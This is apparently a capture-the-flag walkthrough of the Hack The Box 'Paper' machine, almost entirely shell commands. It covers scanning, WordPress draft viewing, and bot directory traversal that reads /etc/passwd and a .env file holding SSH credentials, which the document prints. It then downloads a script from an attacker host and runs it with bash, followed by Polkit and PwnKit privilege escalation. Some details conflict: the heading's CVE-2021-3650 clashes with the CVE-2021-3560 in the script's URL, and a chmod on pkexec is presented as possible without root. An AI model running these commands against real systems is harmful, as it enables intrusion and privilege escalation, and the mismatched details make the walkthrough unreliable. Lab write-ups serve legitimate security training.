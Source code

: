 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

### Recon
```bash
nmap -p- --min-rate 10000 10.10.11.143
nmap -p 22,80,443 -sCV 10.10.11.143
```

### Directory/Subdomain Discovery
```bash
feroxbuster -u http://office.paper
wfuzz -u http://office.paper -H "Host: FUZZ.office.paper" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 199691
```

### [WordPress Enumeration](HTTP.md)
```bash
wpscan --url http://office.paper --api-token $WPSCAN_API
```

### CVE-2019-17671 - View Draft Posts
```bash
# Visit in browser:
http://office.paper/?static=1
```

### Rocket.Chat - Directory Traversal via recyclops Bot
```
# In DM to @recyclops
list ../../../
file ../../../etc/passwd
file ../../../hubot/.env
```

### Credential Discovery & SSH Access
```bash
# Found creds in .env:
# dwight:Queenofblad3s!23

crackmapexec ssh 10.10.11.143 -u dwight -p 'Queenofblad3s!23'

sshpass -p 'Queenofblad3s!23' ssh dwight@10.10.11.143
```

### LinPEAS Enumeration
```bash
git clone https://github.com/carlospolop/PEASS-ng
cd PEASS-ng/linPEAS
python3 -m builder.linpeas_builder
python3 -m http.server 80

# On target:
wget http://10.10.14.6/linpeas.sh
bash linpeas.sh
```

### CVE-2021-3650 (Polkit User Creation)
```bash
# Host side:
wget https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/cve-2021-3650.sh
python3 -m http.server 80

# On Paper:
wget http://10.10.14.6/cve-2021-3650.sh
bash cve-2021-3650.sh

# Login to new user
su - secnigma
# Password: secnigmaftw
sudo bash
```

### PwnKit - (CVE-2021-4034)
```bash
# On Paper:
ls -l /usr/bin/pkexec
# If not setuid:
chmod 4755 /usr/bin/pkexec

# Compile exploit:
cc -Wall exploit.c -o exploit

# Run exploit:
./exploit
```

### Flags
```bash
cat /home/dwight/user.txt
cat /root/root.txt
```